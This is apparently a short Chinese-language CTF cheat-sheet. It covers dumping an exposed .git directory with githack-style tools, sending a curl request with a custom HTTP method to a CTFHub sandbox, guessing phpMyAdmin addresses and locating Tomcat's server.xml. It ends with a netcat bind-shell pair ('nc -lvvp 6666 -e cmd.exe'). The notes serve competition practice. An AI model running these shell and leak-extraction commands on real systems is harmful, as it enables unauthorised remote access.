 使用 Web_Git_Extract-master.zip 提取

python2 git_extract.py http://106.75.72.168:9999/.git/
python2 githack.py http://106.75.72.168:9999/.git/

和 http://106.75.72.168:9999/flag.js 对比得到结果。

## Curl 发送请求

`curl -v -X CTFHUB http://challenge-d8eeddbeb7a64576.sandbox.ctfhub.com:10080/index.php`

## 地址猜想

phpmyadmin 地址

    http://pma.wechall.com
    http://pma.wechall.net
    https://pma.wechall.net

## linux 命令

## tomcat/Java/jsp

server 配置文件在

```
tomcat\\conf\\server.xml
```

## 正向 Shell

```
被控端 nc -lvvp 6666 -e cmd.exe
控制端 nc 192.168.1.62 6666
```
